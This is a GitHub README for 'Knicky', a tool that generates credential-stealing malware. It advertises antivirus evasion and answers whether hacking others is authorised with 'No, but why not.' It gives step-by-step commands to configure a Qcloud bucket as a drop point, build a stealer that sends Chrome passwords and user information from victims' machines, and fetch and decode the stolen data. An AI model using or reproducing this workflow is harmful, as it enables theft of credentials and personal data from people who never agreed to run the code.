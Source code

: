 # Knicky
Yet another module-based static virus generator 
```
There will be a picture
```
## Little FAQ
**What the fuck is static virus??**  
Static virus is the virus/trojan that has already had all its functions been defined and would not be controlled by server side. Instead, it would only send critical information (Chrome password, etc.) slowly and predictedly to server side by tricky ways (Sendgrid, AWS, Qcloud, etc.).  

 
**Why use it??**  
Because the virus generated could always bypass the anti-virus softwares. If not, then make some modification on the modules you are using.  

**Am I authorized to hack others' computer??**  
No, but why not.


## Installation
```bash
$ git clone https://github.com/shouc/knicky.git && cd knicky
$ python -m pip install -r requirements/main.txt --user
```
## Small Examples
#### Using Qcloud (腾讯云)
##### 1. Initialize the Module
Note: *See the help information about such module*
```bash
$ python cli.py qcloudUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information after creating a COS bucket in the panel*
```
$ python -m pip install -r requirements/qcloud.txt --user
$ python cli.py qcloudUpdate --secretID <SecretID> --secretKey <SecretKey> --region <BucketRegion> --bucket <BucketName> -b True
```

##### 2. Have an Overview on Components
See all information about components that are used to communicate with you and the hacked machine (Messenger)
```
$  python cli.py getSendInfo
```
See all information about components that are used to return critical information (Module)
```
$  python cli.py getModuleInfo
```
##### 3. Create a Virus
Note: *By doing so, you created a virus that could send the information of user (userInfo) and Chrome password (chromePassword) of the machine that executed the generated code to you by Qcloud(qcloud)*
```
$ python cli.py createProj userInfo+chromePassword qcloud
```
##### 4. Receive Information
Note: *The information sent to you is encrypted by base64 and you could use following command to decrypt*
```
$ python cli.py listProj
$ python cli.py receiveInfo <project name from foregoing command>
```
